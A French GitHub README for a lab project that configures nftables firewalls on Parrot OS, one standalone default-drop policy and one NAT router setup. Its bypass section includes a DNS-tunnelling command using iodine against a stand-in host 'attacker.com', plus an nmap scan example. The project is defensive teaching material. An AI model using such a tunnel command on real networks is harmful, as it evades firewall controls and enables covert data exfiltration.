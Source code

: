 Projet Firewall — Parrot OS


# Objectif du projet


Ce projet montre la configuration de pare-feu avancés sous Parrot Security OS, une distribution orientée pentest + vie privée/anonymat.



Les démonstrations se concentrent sur les niveaux :

Niveau 6 — nftables (avancé, standalone)

Niveau 7 — nftables (NAT / Lab, routeur VM)

# Pourquoi Parrot OS ?
Distribution orientée pentest + vie privée/anonymat.

Le pare-feu ufw est installé par défaut mais désactivé → à activer/configurer par l’utilisateur.

Intègre directement des outils privacy (Tor, Anonsurf, OnionShare).

Plus légère que Kali, adaptée aux machines modestes et à la virtualisation (VirtualBox, VMware).

# Niveaux de sécurité présentés
Niveau 6 — nftables avancé : politique drop par défaut, ouverture sélective (SSH, DNS, HTTP/HTTPS).

Niveau 7 — nftables NAT/Lab : le système devient routeur/firewall pour un LAN virtuel.


# Niveau 6 (standalone, machine protégée)

table inet filter {
chain input {
type filter hook input priority 0;
policy drop;

# Autoriser loopback
iif "lo" accept

# Autoriser connexions établies
ct state established,related accept

# Autoriser ping (IPv4 & IPv6)
ip protocol icmp accept
ip6 nexthdr icmpv6 accept

# Autoriser SSH + HTTP/HTTPS
tcp dport {22,80,443} accept

# Autoriser DNS
tcp dport 53 accept
udp dport 53 accept
}
}


# Niveau 7 (NAT / Lab, routeur VM)
table inet filter {
chain input {
type filter hook input priority 0;
policy drop;

iif "lo" accept
ct state established,related accept
ip protocol icmp accept
ip6 nexthdr icmpv6 accept
tcp dport {22,80,443} accept
tcp dport 53 accept
udp dport 53 accept
}

chain forward {
type filter hook forward priority 0;
policy drop;

# Autoriser le LAN interne vers Internet
iif "eth1" oif "eth0" accept
ct state established,related accept
}
}

table ip nat {
chain postrouting {
type nat hook postrouting priority 100;
oif "eth0" masquerade
}
}

# 📌 Explications :

Niveau 6 → protège ta machine personnelle.

Niveau 7 → transforme ta machine en pare-feu + routeur pour un réseau virtuel.


#  Démonstrations
Application des règles :

sudo nft -f /etc/nftables.conf

Vérification des règles actives :

sudo nft list ruleset


Tests (ping, HTTP, DNS, etc.) avec captures d’écran (GitHub + YouTube).

#  Limites et bonnes pratiques


Un firewall réduit la surface d’attaque mais ne protège pas de tout.

Un hacker expérimenté peut :

passer par un port ouvert (SSH, HTTPS),

exploiter une faille logicielle,

utiliser du tunneling (DNS, HTTP(S)),

contourner via IPv6 si mal configuré.



👉 Solution : combiner avec un IDS/IPS (Snort, Suricata), du monitoring (logs, SIEM), et de bonnes pratiques (MFA, patchs, segmentation réseau).

# Conclusion
Parrot OS est une alternative solide à Kali, plus légère et orientée vie privée.

Les niveaux 6 et 7 démontrent deux cas concrets :

🔒 Protection avancée d’une machine individuelle.

🌐 Mise en place d’un routeur/firewall complet pour un lab réseau.

Ce projet illustre comment un firewall évolue : de simple protection → à composant réseau avancé.

⚡ Technologies utilisées
Parrot OS

nftables

VirtualBox



📌 Auteur : Virginie Lechene

# ⚠️ Comment un hacker pourrait contourner


Même avec un firewall avancé (niveaux 6 et 7), il existe des techniques de contournement :

Exploiter les ports ouverts (ex : nmap -p 443 <cible> → scanner en HTTPS).

Tunneling DNS (ex : iodine → transformer DNS en canal de communication).

Exploiter des failles applicatives derrière un port autorisé.



👉 C’est pourquoi on combine firewall + IDS/IPS + monitoring.

🔹 Exemple — Tunnel DNS (contournement)


Comme le port 53 (DNS) est ouvert, un attaquant peut établir un tunnel DNS :

iodine -f -r attacker.com

👉 Cela permet de faire passer du trafic complet dans des requêtes DNS → contournant le firewall.

🚀 Différence entre Niveau 6 et Niveau 7


🔹 Niveau 6 : Firewall personnel
Ne protège que ta machine locale.

Politique stricte : tout bloqué sauf quelques services.

Idéal pour un poste de travail ou serveur isolé.



👉 Exemple : ton PC sous Parrot OS n’accepte que le trafic web et SSH.

🔹 Niveau 7 : Firewall réseau
Ta machine devient un routeur + firewall.

Protège un lab ou réseau interne entier.

Ajoute le forwarding + NAT.

Fonctionne comme un firewall d’entreprise (pfSense, Fortinet, iptables/nftables).



👉 Exemple : une VM interne passe par ton firewall pour sortir → le firewall contrôle/log tout le trafic.




